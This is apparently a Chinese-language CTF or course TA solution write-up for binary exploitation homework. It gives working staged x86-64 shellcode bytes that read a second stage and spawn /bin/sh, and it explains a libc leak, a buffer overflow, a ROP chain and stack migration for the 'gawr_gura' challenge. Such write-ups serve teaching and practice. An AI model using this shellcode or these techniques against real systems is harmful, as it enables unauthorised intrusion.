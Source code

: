 ```c=
```
這題有非常多種做法並不限定只有一種shellcode的寫法
這邊的作法是先用寫一個`read(0, buf, 0xff)`的shellcode，而當遇到需要填入`\x87`的位置就用`jmp`指令跳過去
```
\x90\x90\x90\xeb\x02\x87
\x49\x89\xD7                          mov r15, rdx
\x48\x31\xFF                          xor rdi,rdi
\xeb\x03\x90\x90\x87                  jmp
\x49\x83\xC7\x50                      add r15, 0x50
\x4C\x89\xFE                          mov rsi, r15
\xeb\x02\x90\x87                      jmp
\x48\xC7\xC2\xFF\xFF\x00\x00          mov rdx, 0xffff
\xeb\x02\x90\x87                      jmp
\x48\x31\xC0                          xor rax,rax
\x0F\x05                              syscall
\x41\xFF\xE7                          jmp    r15
```
一開始先把要放shellcode的位置存在r15上面所以就構造出`read(0, r15, 0xffff)`的shellcode之後可以進行第二次寫入，寫入`execve("/bin/sh", NULL, NULL)`的shellcode來開shell，然後因為shellcode的位置已經存在r15上就直接`jmp r15`跳進去shellcode就可以了

[exploit](/HW1_TA_solution/peko/solve.py)

## gawr_gura
### 考點
1. ret2libc
2. rop
3. stack migration
### exploit
一開始先觀察全域變數的位置，可以看到`Gawr_gura`存放的起始位置+0x40有stdout
![](https://i.imgur.com/CXJHsxh.png)

而第5個功能可以對`Gawr_grua.note`裡面寫入0x30的大小
```c=
case 5:
    puts("What do you want to say?");
    read(0, Gawr_grua.note, 0x30);
    break;
```
`Gawr_grua.note`在0x407090如果寫入0x30個字會一路從0x407090到0x4070bf都覆蓋掉如下圖
![](https://i.imgur.com/1VZUWOW.png)

這時如果使用第6個功能他會從`Gawr_grua.note`開始用`printf("%s")`把裡面的字串印出來，但是因為`printf("%s")`會一路往下印直到遇到`\x00`為止，所以也會把stdout給印出來，因為stdout是在libc裡面所以可以透過stdout來回推libc的base address
```c=
case 6:
    puts("You say: ");
    printf("%s", Gawr_grua.note);
    break;
```
拿到libc的base之後因為最後面是`read(0, buf, 100)`所以有buffer overflow的漏洞，但是因為這題library裡面的system已經被拔掉的，所以不能直接call `system("/bin/sh")`來拿shell必須透過ROP的方式來做
但是如果要做ROP蓋完return address之後就沒有太多空間可做ROP了，因此必須使用stack migration的技巧來另外找一塊更大的空間疊ROP chain
因為bss段是可寫的所以先把stack搬到bss段上然後讓return address蓋成`read(0, buf, 100)`的位置就能再做一次寫入並且是寫在bss段上，如下圖所示RBP已被搬到bss段上
![](https://i.imgur.com/9JkID0G.png)
